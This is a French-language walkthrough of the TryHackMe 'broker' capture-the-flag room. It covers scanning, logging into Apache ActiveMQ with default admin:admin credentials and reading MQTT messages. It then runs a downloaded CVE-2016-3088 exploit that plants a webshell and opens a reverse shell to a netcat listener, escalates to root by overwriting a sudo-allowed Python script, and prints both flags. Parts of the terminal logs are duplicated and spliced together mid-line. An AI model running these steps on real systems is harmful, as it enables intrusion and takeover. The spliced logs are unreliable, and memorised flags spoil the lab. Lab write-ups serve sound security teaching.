



# broker #

## Task 1 Deploy the machine! ##

## Task 2 Enumeration & flags ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.220.103 broker.thm' >> /etc/hosts"

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A broker.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-16 09:22 CEST
Nmap scan report for broker.thm (10.10.220.103)
Host is up (0.037s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4c:75:a0:7b:43:87:70:4f:70:16:d2:3c:c4:c5:a4:e9 (RSA)
|   256 f4:62:b2:ad:f8:62:a0:91:2f:0a:0e:29:1a:db:70:e4 (ECDSA)
|_  256 92:d2:87:7b:98:12:45:93:52:03:5e:9e:c7:18:71:d5 (ED25519)
1883/tcp  open  mqtt?
8161/tcp  open  http       Jetty 7.6.9.v20130131
|_http-server-header: Jetty(7.6.9.v20130131)
|_http-title: Apache ActiveMQ
41271/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/16%OT=22%CT=1%CU=40199%PV=Y%DS=2%DC=T%G=Y%TM=616A7E
OS:22%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)SE
OS:Q(SP=105%GCD=1%ISR=10A%TI=Z%CI=Z%TS=A)OPS(O1=M506ST11NW7%O2=M506ST11NW7%
OS:O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11NW7%O6=M506ST11)WIN(W1=F4B3%W2
OS:=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M506NNS
OS:NW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A broker.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-16 09:22 CEST
Nmap scan report for broker.thm (10.10.220.103)
Host is up (0.037s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4c:75:a0:7b:43:87:70:4f:70:16:d2:3c:c4:c5:a4:e9 (RSA)
|   256 f4:62:b2:ad:f8:62:a0:91:2f:0a:0e:29:1a:db:70:e4 (ECDSA)
|_  256 92:d2:87:7b:98:12:45:93:52:03:5e:9e:c7:18:71:d5 (ED25519)
1883/tcp  open  mqtt?
8161/tcp  open  http       Jetty 7.6.9.v20130131
|_http-server-header: Jetty(7.6.9.v20130131)
|_http-title: Apache ActiveMQ
41271/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/16%OT=22%CT=1%CU=40199%PV=Y%DS=2%DC=T%G=Y%TM=616A7E
OS:22%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)SE
OS:Q(SP=105%GCD=1%ISR=10A%TI=Z%CI=Z%TS=A)OPS(O1=M506ST11NW7%O2=M506ST11NW7%
OS:O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11NW7%O6=M506ST11)WIN(W1=F4B3%W2
OS:=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M506NNS
OS:NW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%
OS:RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 199/tcp)
HOP RTT      ADDRESS
1   33.83 ms 10.9.0.1
2   33.96 ms broker.thm (10.10.220.103)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.77 seconds
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 199/tcp)
HOP RTT      ADDRESS
1   33.83 ms 10.9.0.1
2   33.96 ms broker.thm (10.10.220.103)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.77 seconds
```

Avec nmap on voit plusieurs services qui sont : 
Le service SSH sur le port 22.    
Le service HTTP sur le port 8161.   
Le servcie tcpwrapped sur le port 41271.   
Un service inconnu sur le ports 1883.   

**Do a TCP portscan on all ports with port number greater than 1000 and smaller than 10000! Which TCP ports do you find to be open? (counting up)**

Entre le port 1000 et 10000 on voit deux ports ouverts qui sont : 8161 et 1883.   

**What is the name of the software they use?**

Sur le port 8161 on voit : http-title: Apache ActiveMQ 
Le nom du logiciel est : ActiveMQ    

**Which videogame are Paul and Max talking about?**

   

Sur la page d'administration il y a un mot de passe.   

   

On fait une recherche, les identifiants par défaut sont :  admin:admin    

   

On voit que dans les topic, il y a une section : secret_chat   

```bash
tim@kali:~/Bureau/tryhackme/write-up/python-mqtt-client-shell$ python mqtt_client_shell.py

Welcome to the MQTT client shell.
Type help or ? to list commands.
Pressing <Enter> on an empty line will repeat the last command.

Client args: client_id=paho-2197-kali, clean_session=True, protocol=4 (MQTTv3.1.1), transport=tcp
Logging: on (indent=30), Recording: off, Pacing: 0
> protocol 3

Client args: client_id=paho-2197-kali, clean_session=True, protocol=3 (MQTTv3.1), transport=tcp
Logging: on (indent=30), Recording: off, Pacing: 0
> connection

Connection args: host=localhost, port=1883, keepalive=60, bind_address=, will=None,
                 username=, password=, 
                 TLS/SSL args: ca_certs_filepath=None, ...  (TLS not used)
Client args: client_id=paho-2197-kali, clean_session=True, protocol=3 (MQTTv3.1), transport=tcp
Logging: on (indent=30), Recording: off, Pacing: 0
> host broker.thm

Connection args: host=broker.thm, port=1883, keepalive=60, bind_address=, will=None,
                 username=, password=, 
                 TLS/SSL args: ca_certs_filepath=None, ...  (TLS not used)
Client args: client_id=paho-2197-kali, clean_session=True, protocol=3 (MQTTv3.1), transport=tcp
Logging: on (indent=30), Recording: off, Pacing: 0
> connect
                              on_log(): level=16 - Sending CONNECT (u0, p0, wr0, wq0, wf0, c1, k60) client_id=b'paho-2197-kali'

***CONNECTED***
Subscriptions: 
Connection args: host=broker.thm, port=1883, keepalive=60, bind_address=, will=None,
                 username=, password=, 
                 TLS/SSL args: ca_certs_filepath=None, ...  (TLS not used)
Client args: client_id=paho-2197-kali, clean_session=True, protocol=3 (MQTTv3.1), transport=tcp
Logging: on (indent=30), Recording: off, Pacing: 0
>                               on_log(): level=16 - Received CONNACK (0, 0)
                              on_connect(): result code = 0 (Connection Accepted.)
                                            flags = {'session present': 0}
subscribe #
                              on_log(): level=16 - Sending SUBSCRIBE (d0, m1) [(b'#', 0)]
...msg_id=1, result=0 (No error.)
m@kali:~/Bureau/tryhackme/write-up$ git clone https://github.com/eclipse/mosquitto 
Clonage dans 'mosquitto'...
remote: Enumerating objects: 26529, done.
remote: Counting objects: 100% (3124/3124), done.
remote: Compressing objects: 100% (1534/1534), done.
remote: Total 26529 (delta 2187), reused 2312 (delta 1575), pack-reused 23405
Réception d'objets: 100% (26529/26529), 10.99 Mio | 5.99 Mio/s, fait.
Résolution des deltas: 100% (20188/20188), fait.=#,qos=0)
Connection args: host=broker.thm, port=1883, keepalive=60, bind_address=, will=None,
                 username=, password=, 
                 TLS/SSL args: ca_certs_filepath=None, ...  (TLS not used)
Client args: client_id=paho-2197-kali, clean_session=True, protocol=3 (MQTTv3.1), transport=tcp
Logging: on (indent=30), Recording: off, Pacing: 0
>                               on_log(): level=16 - Received SUBACK
                              on_subscribe(): subscribed: msg id = 1, granted_qos = (0,)
                              on_log(): level=16 - Received PUBLISH (d0, q0, r0, m0), 'ActiveMQ/Advisory/Consumer/Topic/>', ...  (0 bytes)
                              on_message(): message received: Topic: ActiveMQ/Advisory/Consumer/Topic/>, QoS: 0, Payload Length: 0
                                                              Payload (str): b''
                                                              Payload (hex): b''
                              on_log(): level=16 - Received PUBLISH (d0, q0, r0, m0), 'secret_chat', ...  (55 bytes)
                              on_message(): message received: Topic: secret_chat, QoS: 0, Payload Length: 55
                                                              Payload (str): b"Paul: Hey, have you played the videogame 'Hacknet' yet?"
                                                              Payload (hex): b'5061756c3a204865792c206861766520796f7520706c617965642074686520766964656f67616d6520274861636b6e657427207965743f'
                              on_log(): level=16 - Received PUBLISH (d0, q0, r0, m0), 'secret_chat', ...  (128 bytes)
                              on_message(): message received: Topic: secret_chat, QoS: 0, Payload Length: 128
                                                              Payload (str): b"Max: Yeah, honestly that's the one game that got me into hacking, since I wanted to know how hacking is 'for real', you know? ;)"
                                                              Payload (hex): b'4d61783a20596561682c20686f6e6573746c792074686174277320746865206f6e652067616d65207468617420676f74206d6520696e746f206861636b696e672c2073696e636520492077616e74656420746f206b6e6f7720686f77206861636b696e672069732027666f72207265616c272c20796f75206b6e6f773f203b29'
                              on_log(): level=16 - Received PUBLISH (d0, q0, r0, m0), 'secret_chat', ...  (55 bytes)
                              on_message(): message received: Topic: secret_chat, QoS: 0, Payload Length: 55
                                                              Payload (str): b'Paul: Sounds awesome, I will totally try it out then ^^'
                                                              Payload (hex): b'5061756c3a20536f756e647320617765736f6d652c20492077696c6c20746f74616c6c7920747279206974206f7574207468656e205e5e'
                              on_log(): level=16 - Received PUBLISH (d0, q0, r0, m0), 'secret_chat', ...  (142 bytes)
                              on_message(): message received: Topic: secret_chat, QoS: 0, Payload Length: 142
                                                              Payload (str): b'Max: Nice! Gotta go now, the boss will kill us if he sees us chatting here at work. This broker is not meant to be used like that lol. See ya!'
                                                              Payload (hex): b'4d61783a204e6963652120476f74746120676f206e6f772c2074686520626f73732077696c6c206b696c6c2075732069662068652073656573207573206368617474696e67206865726520617420776f726b2e20546869732062726f6b6572206973206e6f74206d65616e7420746f2062652075736564206c696b652074686174206c6f6c2e2053656520796121'
                              on_log(): level=16 - Sending PINGREQ
                              on_log(): level=16 - Received PINGRESP
                              on_log(): level=16 - Received PUBLISH (d0, q0, r0, m0), 'secret_chat', ...  (55 bytes)
                              on_message(): message received: Topic: secret_chat, QoS: 0, Payload Length: 55
                                                              Payload (str): b"Paul: Hey, have you played the videogame 'Hacknet' yet?"
                                                              Payload (hex): b'5061756c3a204865792c206861766520796f7520706c617965642074686520766964656f67616d6520274861636b6e657427207965743f'
                              on_log(): level=16 - Received PUBLISH (d0, q0, r0, m0), 'secret_chat', ...  (128 bytes)
                              on_message(): message received: Topic: secret_chat, QoS: 0, Payload Length: 128
                                                              Payload (str): b"Max: Yeah, honestly that's the one game that got me into hacking, since I wanted to know how hacking is 'for real', you know? ;)"
                                                              Payload (hex): b'4d61783a20596561682c20686f6e6573746c792074686174277320746865206f6e652067616d65207468617420676f74206d6520696e746f206861636b696e672c2073696e636520492077616e74656420746f206b6e6f7720686f77206861636b696e672069732027666f72207265616c272c20796f75206b6e6f773f203b29'


```

Avec un client mqtt on lit les messages.   

Le jeu vidéo qui est dans la discution est : Hacknet  

**flag.txt**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/cyberaguiar/CVE-2016-3088/main/exploit_activemq.py -q

tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234

```

On télécharge un exploit et on écoute sur le port 1234.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python exploit_activemq.py broker.thm 8161 admin admin 10.9.228.66 1234
Developed by @cyberaguiar - www.cyberaguiar.com
-----------------------------------------------------------------------
** Disclaimer **
-----------------------------------------------------------------------
The developer of this script are not responsible for any misuse of this
exploit we only encourage the ethical use of this script and to be used
only when authorised to do so during an penetration test or similar. Any
damages or misuse of this script is the responsibility of the individuals
who use them unethically or with the intent to damage property.
-----------------------------------------------------------------------

Open other terminal window, execute command below and hit enter to continue:
nc -nvlp 1234
Bursting the absolute path
Absolute path is: /opt/apache-activemq-5.9.0/webapps
Sending payload to http://broker.thm/fileserver/webshell.jsp
Moving payload to /opt/apache-activemq-5.9.0/webapps/admin/webshell.jsp
Payload installed at http://broker.thm:8161/admin/webshell.jsp
```

On lance la charge.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.220.103.
Ncat: Connection from 10.10.220.103:55588.
ls
LICENSE
NOTICE
README.txt
activemq-all-5.9.0.jar
bin
chat.py
conf
data
flag.txt
lib
start.sh
subscribe.py
tmp
webapps
cat flag.txt 
THM{you_got_a_m3ss4ge}
```

On obtient un shell, dans le répertoire il y a un fichier flag.txt.   
On lit le fichier il contient le flag.   
Le flag est : THM{you_got_a_m3ss4ge}    

**root.txt**

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
activemq@activemq:/opt/apache-activemq-5.9.0$ sudo -l
sudo -l
Matching Defaults entries for activemq on activemq:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User activemq may run the following commands on activemq:
    (root) NOPASSWD: /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py

activemq@activemq:/opt/apache-activemq-5.9.0$ ls -al subscribe.py
ls -al subscribe.py
-rw-rw-r-- 1 activemq activemq 768 Dec 25  2020 subscribe.py

activemq@activemq:/opt/apache-activemq-5.9.0$ id
id
uid=1000(activemq) gid=1000(activemq) groups=1000(activemq)

```

Peut exécuter subscribe.py avec les droits root.   
On a l'autorisation de modifier le fichier.   

```bash
activemq@activemq:/opt/apache-activemq-5.9.0$ echo "import pty;pty.spawn('/bin/bash')" > /opt/apache-activemq-5.9.0/subscribe.py

activemq@activemq:/opt/apache-activemq-5.9.0$ sudo /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
<n/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
root@activemq:/opt/apache-activemq-5.9.0# cat /root/root.txt

cat /root/root.txt
THM{br34k_br0k3_br0k3r}
```

On modifie le fichier subscribe.py pour qu'il lance un shell bash.   
On lance subscribe.py avec les droits root.    
On obtient un shell avec les droits root et on lit le fichier /root/root.txt.   
Le flag est : THM{br34k_br0k3_br0k3r}    
